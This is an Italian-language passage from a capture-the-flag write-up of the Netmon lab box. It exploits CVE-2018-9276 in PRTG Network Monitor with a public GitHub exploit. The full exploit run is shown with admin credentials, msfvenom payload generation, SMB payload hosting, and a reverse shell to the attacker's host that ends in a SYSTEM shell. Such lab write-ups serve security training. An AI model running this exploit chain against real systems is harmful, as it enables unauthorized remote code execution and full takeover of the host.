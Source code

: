 Dalla immagine della schermata di benvenuto non amministrativa precedente, abbiamo la versione di PRTG che sta venendo eseguita. quindi cerchiamo una vulnerabilità che faccia al caso nostro.

Troviamo la vulnerabilità <https://nvd.nist.gov/vuln/detail/CVE-2018-9276>

## Exploit

Troviamo un repository GitHub con un exploit pronto per noi. Clonabile tramite <https://github.com/A1vinSmith/CVE-2018-9276.git>

La vulnerabilità consente esecuzione remota di codice tramite notifiche malevole.

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/netmon/CVE-2018-9276]
└──╼ $sudo ./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.6 --lport 9001 --user prtgadmin --password PrTg@dmin2019
[+] [PRTG/18.1.37.13946] is Vulnerable!

[*] Exploiting [10.10.10.152:80] as [prtgadmin/PrTg@dmin2019]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] File staged at [C:\Users\Public\tester.txt] successfully with objid of [2030]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2030] staged for execution
[*] Generate msfvenom payload with [LHOST=10.10.14.6 LPORT=9001 OUTPUT=/tmp/gcapodvr.dll]
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 9216 bytes
/home/dua2z3rr/Boxes/netmon/CVE-2018-9276/./exploit.py:294: DeprecationWarning: setName() is deprecated, set the name attribute instead
  impacket.setName('Impacket')
/home/dua2z3rr/Boxes/netmon/CVE-2018-9276/./exploit.py:295: DeprecationWarning: setDaemon() is deprecated, set the daemon attribute instead
  impacket.setDaemon(True)
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Hosting payload at [\\10.10.14.6\SCOLLHAU]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Command staged at [C:\Users\Public\tester.txt] successfully with objid of [2031]
[+] Session obtained for [prtgadmin:PrTg@dmin2019]
[+] Notification with objid [2031] staged for execution
[*] Attempting to kill the impacket thread
[-] Impacket will maintain its own thread for active connections, so you may find it's still listening on <LHOST>:445!
[-] ps aux | grep <script name> and kill -9 <pid> if it is still running :)
[-] The connection will eventually time out.

[+] Listening on [10.10.14.6:9001 for the reverse shell!]
Listening on 0.0.0.0 9001
[*] Incoming connection (10.10.10.152,50263)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
Connection received on 10.10.10.152 50278
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
whoami
nt authority\system
```
